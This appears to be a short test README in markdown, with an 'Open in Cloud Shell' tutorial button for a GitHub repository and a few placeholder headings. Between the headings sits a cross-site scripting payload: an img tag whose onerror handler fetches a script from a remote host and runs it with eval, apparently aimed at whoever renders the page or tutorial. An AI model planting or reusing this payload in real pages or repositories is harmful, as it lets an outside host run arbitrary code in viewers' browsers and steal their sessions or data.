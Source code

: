 
# h1 test

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://shell.cloud.google.com/cloudshell/editor?cloudshell_git_repo=https%3A%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta&cloudshell_open_in_editor=test3.md&cloudshell_tutorial=test3.md)

---


<img src/onerror="fetch('http:example.com/X.js').then((r)=>r.text()).then(t=>eval(t))">

# test
